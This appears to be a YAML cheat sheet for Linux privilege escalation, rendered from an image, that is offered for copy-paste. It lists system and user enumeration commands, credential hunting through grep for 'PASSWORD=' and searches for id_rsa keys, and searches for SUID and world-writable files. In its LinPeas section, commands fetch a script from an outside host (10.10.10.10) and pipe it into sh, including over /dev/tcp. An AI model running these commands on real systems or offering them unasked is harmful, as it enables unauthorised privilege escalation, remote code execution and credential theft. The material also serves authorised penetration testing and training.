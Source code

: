 ```yaml
---
functions:
  privilege-escalation:
    - description: Simplistic and standard checklist for linux privilege escalation, in no particular order
      code: |
        Feel free to copy paste the entire listing below
        System Info Enum:
        - [ ] uname -a
        - [ ] cat /etc/issue
        - [ ] cat /etc/*-release
        - [ ] cat /proc/version
        - [ ] lsb_release -a
        - [ ] ps aux
        - [ ] lscpu
        - [ ] env
        - [ ] echo $PATH
        - [ ] sudo -l
        - [ ] hostname
        User Enum:
        - [ ] whoami
        - [ ] id
        - [ ] cat /etc/passwd
        - [ ] cat /etc/group
        - [ ] history

        Network Enum:
        - [ ] ip a
        - [ ] ifconfig
        - [ ] /sbin/route
        - [ ] netstat -plant

        Task Scheduling:
        - [ ] cat /etc/crontab
        - [ ] grep "CRON" /var/log/cron.log
        - [ ] process momintoring (below script)

        Password Hunting:
        - [ ] grep --color=auto -rnw '/' -ie "PASSWORD=" 2>/dev/null
        - [ ] locate pass | more
        - [ ] find / -name id_rsa 2>/dev/null
        - [ ] find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

        - [ ] dpkg -l
        - [ ] mount
        - [ ] cat /etc/fstab
        - [ ] ssh -V
        - [ ] /bin/lsblk
        - [ ] lsmod


        File Permission Searching:
        - [ ] find / -type f -perm -2 2>/dev/null | grep -v "^/proc/"                     #world writable
        - [ ] find / -user root -perm -002 -type f 2>/dev/null | grep -v "^/proc/"     #world writable ownd by root
        - [ ] ls -al $(find / -perm -1000 -type d 2>/dev/null)   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
        - [ ] ls -al $(find / -perm -g=s -type f 2>/dev/null)    # SGID (chmod 2000) - run as the group, not the user who started it.
        - [ ] ls -al $(find / -perm -u=s -type f 2>/dev/null)    # SUID (chmod 4000) - run as the owner, not the user who started it.
        - [ ] for file in $(find / -perm -u=s -type f 2>/dev/null ); do ls -al $file; done;
        - [ ] find / -xdev -user root -perm -o+w -type f 2>/dev/null
        - [ ] find / -xdev -group admin -perm -o+w -type f 2>/dev/null
        - [ ] find / -perm -u=s -type f -exec "ls -al {}" \; 2>/dev/null
        - [ ] ls -al /etc/iptables/* -R
        - [ ] ls -lah /etc/cron*        

        MONITOR PROCESSES:
        ------------------
        #!/bin/bash
        IFS=$'\n'
        old_process=$(ps aux --forest | grep -v "ps aux --forest" | grep -v "sleep 1" | grep -v $0)
        while true; do
          new_process=$(ps aux --forest | grep -v "ps aux --forest" | grep -v "sleep 1" | grep -v $0)
          diff <(echo "$old_process") <(echo "$new_process") | grep [\<\>]
          sleep 1
          old_process=$new_process
        done

    - description: LinPeas
      code: |
        curl http://10.10.10.10/linpeas.sh | sh
        cd /tmp; wget http://10.10.10.10/linpeas.sh && sh linpeas.sh

        sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
        cat < /dev/tcp/10.10.10.10/80 | sh #Victim

        # Output to file
        ./linpeas.sh -a > /dev/shm/linpeas.txt

    - description: Linux Exploit Suggester
      code: |
        perl linux-exploit-suggester.pl

          #############################
            Linux Exploit Suggester 2
          #############################

          Local Kernel: 2.6.32
          Searching 72 exploits...

          Possible Exploits
          [1] american-sign-language
              CVE-2010-4347
              Source: http://www.securityfocus.com/bid/45408
          [2] can_bcm
              CVE-2010-2959
              Source: http://www.exploit-db.com/exploits/14814

        ...
        ...

        Use the -k flag to manually enter a wildcard for the kernel/operating system release version.
        perl linux-exploit-suggester.pl -k 3



resources: |
  https://github.com/jondonas/linux-exploit-suggester-2/blob/master/linux-exploit-suggester-2.pl
  https://github.com/SecWiki/linux-kernel-exploits
  https://github.com/lucyoa/kernel-exploits
  https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

---
```



